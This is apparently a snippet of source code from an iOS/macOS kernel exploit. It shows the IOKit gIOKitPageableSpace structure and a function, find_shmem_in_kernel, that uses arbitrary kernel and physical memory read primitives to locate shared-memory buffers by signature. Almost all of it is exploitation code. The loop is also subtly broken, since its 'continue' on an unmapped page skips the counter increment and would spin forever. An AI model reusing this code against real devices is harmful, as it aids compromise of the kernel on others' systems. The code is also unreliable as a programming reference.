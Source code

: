 ```cpp
typedef struct {
    vm_map_t		map;
    vm_offset_t	address;
    vm_offset_t	end;
} IOMapData;

static struct {
    UInt32	count;
    UInt32	hint;
    IOMapData	maps[ kIOMaxPageableMaps ];
    lck_mtx_t *	lock;
} gIOKitPageableSpace;
```

```cpp
void find_shmem_in_kernel(uint64_t *kva1, uint64_t *kva2, uint64_t command_buffer_shmem_sig, uint64_t segment_list_shmem_sig) {
    uint64_t command_buffer_shmem_data_kva = 0;
    uint64_t segment_list_shmem_data_kva = 0;
    uint64_t gIOKitPageableSpace_start = kread64(ksym(KSYMBOL_gIOKitPageableSpace) + 0x10);
    uint64_t gIOKitPageableSpace_end = kread64(ksym(KSYMBOL_gIOKitPageableSpace) + 0x18);

    int i = 0;

    while(1) {
        uint64_t current_kva = gIOKitPageableSpace_start + i * 0x1000;

        if(current_kva > gIOKitPageableSpace_end) {
            ERROR("failed to find where shmem allocated in kernel\n");
            break;
        }

        //check if valid readable kernel address to prevent kernel panic
        uint64_t current_pa = kvtophys(current_kva);
        if(current_pa == 0) continue;

        if(physread64(current_pa) == command_buffer_shmem_sig) {
            INFO("Found command_buffer_shmem in kernel: 0x%llx\n", current_kva-0x1000);
            command_buffer_shmem_data_kva = current_kva-0x1000;
            *kva1 = command_buffer_shmem_data_kva;
        }

        if(physread64(current_pa) == segment_list_shmem_sig) {
            INFO("Found segment_list_shmem in kernel: 0x%llx\n", current_kva-0x1000);
            segment_list_shmem_data_kva = current_kva-0x1000;
            *kva2 = segment_list_shmem_data_kva;
        }

        if(segment_list_shmem_data_kva && command_buffer_shmem_data_kva) break;

        i++;
    }
}
```
